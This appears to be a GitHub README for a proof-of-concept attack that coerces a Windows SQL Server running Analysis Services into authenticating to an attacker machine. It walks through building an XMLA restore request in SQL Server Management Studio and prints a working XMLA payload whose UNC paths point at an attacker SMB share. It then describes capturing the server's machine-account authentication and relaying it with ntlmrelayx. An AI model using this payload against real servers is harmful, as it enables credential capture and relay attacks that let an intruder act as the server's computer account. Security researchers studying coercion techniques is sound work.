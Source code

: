 # MSSQL Analysis Services - Coerced Authentication

![](./.github/banner.png)

A technique to coerce a Windows SQL Server to authenticate on an arbitrary machine.

This proof of concept is co-authored by <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a> and <a href="https://twitter.com/intent/follow?screen_name=_Worty" title="Follow"><img src="https://img.shields.io/twitter/follow/_Worty?label=Worty&style=social"></a>.


## Proof of concept

In order to trigger the authentification as the local machine account, we need to connect to the remote SQL Server using user credentials:

![](./.github/sql_analysis_connect.png)

Then we will select "Restore" to restore the database from a given file.

![](./.github/restore_db.png)

To generate the XMLA file, put the path to a random file in the "Backup File" form, and click Ok.

![](./.github/accessed_xml_script.png)

Then change the path to a random file and replace it with a UNC path to your attacker server (for example `\\192.168.128\SYSVOL\db.abf`)

![](./.github/unc_path_in_xml_file.png)

Proof of concept XMLA query ([poc.xmla](./poc.xmla)):

```xml
<Restore xmlns="http://schemas.microsoft.com/analysisservices/2003/engine">
    <File>\\192.168.2.51\SYSVOL\db.abf</File>
    <DatabaseName>\\192.168.2.51\SYSVOL\db.abf</DatabaseName>
    <DbStorageLocation xmlns="http://schemas.microsoft.com/analysisservices/2008/engine/100/100">\\192.168.2.51\SYSVOL\db.abf</DbStorageLocation>
</Restore>
```

And we get an authentication from the local machine account of the SQL Server:

![](./.github/responder_auth.png)

## Relaying for the win

Once we got the authentification, we can relay it with `ntlmrelayx` to perform many actions on behalf of the computer `SQL01$`.

This is cool, but it is complicated to trigger this coerced authentication from a Linux attacking machine as we do not have access to the SQL Server Management Studio (SSMS). 

## References
 - https://docs.microsoft.com/en-us/sql/database-engine/install-windows/install-sql-server?view=sql-server-ver15
 - https://social.technet.microsoft.com/wiki/contents/articles/13106.sql-server-frequently-used-ports.aspx
 - https://docs.microsoft.com/en-us/answers/questions/274512/connecting-to-azure-analysis-services-using-python.html
